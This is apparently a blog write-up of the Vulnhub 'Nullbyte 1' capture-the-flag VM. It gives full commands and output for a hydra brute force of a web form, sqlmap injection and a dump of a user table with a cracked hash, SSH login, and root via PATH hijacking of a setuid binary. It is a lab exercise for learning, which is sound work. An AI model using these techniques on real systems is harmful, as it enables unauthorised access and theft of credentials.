 ```yaml
---
extends: default.liquid
title: Nullbyte 1 solution
date: 2015-08-25T19:03:50Z
---
```


I've been AFK for a while because of various reasons, but now I'm back and have managed to scrape a little time together to get on with some of [Vulnhub's](https://vulnhub.com) new VMs.

So let's start with [Nullbyte 1](https://www.vulnhub.com/entry/nullbyte-1,126/)

## Stage 1

I ran the usual service discovery and found:

```sourceCode
root@kali:~# nmap -sV 192.168.56.101

Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-08-25 11:29 BST
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

HTTP server on 80 and ssh on 777. I'm going to take the straightforward one, and head to the HTTP server first.

Upon opening the page I only get an image and some text

![image](https://i.imgur.com/SlVGKol.png)

I ran `dirbuster` on the root and got a couple of hits: `uploads` and `phpmyadmin`. The first had disabled directory listing and the second was a no go, but at least told me there was a SQL server available somewhere.

The source of the page doesn't reveal anything else either, so that last place we might be able to find something is the image itself. There doesn't appear to be any steganography involved here and nothing in the hexdump of the image either. Well, let me take a look at the EXIF data then.

```sourceCode
root@kali:~/Downloads# exiftool main.gif
ExifTool Version Number         : 9.74
File Name                       : main.gif
Directory                       : .
File Size                       : 16 kB
File Modification Date/Time     : 2015:08:25 10:27:37+01:00
File Access Date/Time           : 2015:08:25 10:28:35+01:00
File Inode Change Date/Time     : 2015:08:25 10:27:37+01:00
File Permissions                : rw-r--r--
File Type                       : GIF
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
```

Hrmm, that comment looks unusual. Let's try that in the URL. Initially I got a 404 but that's because I didn't remove the `P-): `. Hitting `https://192.168.56.101/kzMb5nVYJw` takes me to a form asking for a key.

## Stage 2

Typing in something random just shows `invalid key`. Ok, let me take a look at the source, see where this thing goes.

```html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form>
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

Ok, so no SQLi here then, and the password isn't complex either. I'm guessing a simple wordlist might solve this for me. Time to break out `hydra` for this:

```sourceCode
root@kali:~# hydra 192.168.56.101 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P /usr/share/dict/words -t 10 -w 30
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://www.thc.org/thc-hydra) starting at 2015-08-25 11:41:58
[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
[DATA] attacking service http-post-form on port 80
[STATUS] 18687.00 tries/min, 18687 tries in 00:01h, 80484 todo in 00:05h, 10 active
[80][http-post-form] host: 192.168.56.101   login: x   password: elite
1 of 1 target successfully completed, 1 valid password found
```

Bingo. Once I enter that into the field I am able to search for usernames.

## Stage 3

Entering all sorts of names reveals nothing. At this point I am guessing this is the part that is backed by a SQL database. Although usernames and the usual SQLi synbols don't do much, entering nothing dumps multiple records. Maybe I will try to `sqlmap` the URL to see if there's any vulnerabilities there

```sourceCode
root@kali:~# sqlmap -u https://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=

<snip>

[11:13:26] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable
[11:13:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:13:26] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:13:26] [INFO] target URL appears to have 3 columns in query
[11:13:26] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```

Result! Using this we can now dump the databasenames, tables, and data in the DB

(output shortened for clarity)

```sourceCode
root@kali:~# sqlmap -u https://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --current-db
back-end DBMS: MySQL 5.0.12
[11:13:44] [INFO] fetching current database
current database:    'seth'

root@kali:~# sqlmap -u https://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --tables -D seth
[11:13:55] [INFO] fetching tables for database: 'seth'
Database: seth
[1 table]
+-------+
| users |
+-------+


root@kali:~# sqlmap -u https://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump -D seth -T users
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

An MD5 hashed password? I best put that through [md5decoder](https://md5decoder.org/) to be rewarded with the password `omega`

## stage 4

Turns out that this is ramses's password on the ssh service that's running on port 777 on the VM. So I'll connect to that and have a look at what's going on there.

Not much in his home directory, so I'll checkout what he's been up to

```sourceCode
ramses@NullByte:~$ cat .bash_history
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch
clear
sudo -s
cd /
ls
exit
```

Interesting, ramses has something in `/var/www`. Seems like a setuid root binary called `procwatch`. After running it I would assume that it's just running `ps` to return a list of processes. If I run `ps` on its own, I get the same output (minus procwatch of course)

So let's see if it calls `ps` with an absolute path, or not. As a quick test I'll create a symlink to `ls` in the current directory and name it `ps`. Then I set the `PATH` environment variable with the current dir at the front.

```sourceCode
ramses@NullByte:/var/www/backup$ ln -s /bin/ls ps
ramses@NullByte:/var/www/backup$ export PATH=`pwd`:${PATH}
ramses@NullByte:/var/www/backup$ ./procwatch
ls  procwatch  ps  readme.txt
```

Excellent, it just calls `ps` without a path. A classic issue you can often find in programs that call other programs.

So let me leverage this to get myself a root shell and ultimately the flag

```sourceCode
ramses@NullByte:/var/www/backup$ ln -snf /bin/sh ps
ramses@NullByte:/var/www/backup$ ./procwatch
# whoami
root
# cat /root/proof.txt
[OUTPUT CUT]
```

And that concludes the NullByte VM walkthrough. A nice little machine with some fun challenges. Thanks to ly0n for creating it.
